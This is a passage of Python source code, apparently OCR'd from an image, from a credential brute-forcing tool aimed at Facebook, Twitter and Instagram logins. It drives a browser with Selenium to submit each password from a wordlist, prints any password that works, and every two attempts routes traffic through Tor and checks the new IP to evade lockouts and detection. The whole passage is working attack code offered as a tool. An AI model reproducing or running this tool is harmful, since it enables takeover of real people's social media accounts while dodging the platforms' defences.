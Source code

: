         elem.clear()
        elem.send_keys(username)

        j=0 

        print("\n- Bruteforce starting ( Delay = %s sec ) -\n" % self.delay)

        wordlist = open(wordlist, 'r')

        for i in wordlist.readlines():

            password = i.strip("\n")

            try:               

                if service == "facebook":

                    elem = driver.find_element_by_name("pass")

                elif service == "twitter":

                    elem = driver.find_element_by_name("session[password]")

                elif service == "instagram":

                    elem = driver.find_element_by_name("password")

                elem.clear()
                elem.send_keys(password)
                elem.send_keys(Keys.RETURN)
                
                sleep(delay) 


                if service == "facebook":

                    assert (("Log into Facebook | Facebook") in driver.title)

                elif service == "twitter":

                    if driver.current_url == "https://mobile.twitter.com/home":

                        print(G + ("  Username: {} \t| Password found: {} \n".format(username,password)) + W)

                        self.stopTOR()

                elif service == "instagram":

                    assert (("Log in — Instagram") in driver.title)

                if j == 2:

                   j=0

                   socks.setdefaultproxy(socks.PROXY_TYPE_SOCKS5 , "127.0.0.1", 9050, True)

                   socket.socket = socks.socksocket

                   my_ip = urlopen("http://ip.42.pl/raw").read()

                print(O + ("  Password: {} \t| Failed \t| IP : {} \n ".format(password,my_ip)) + W)

                j+=1

                sleep(delay)
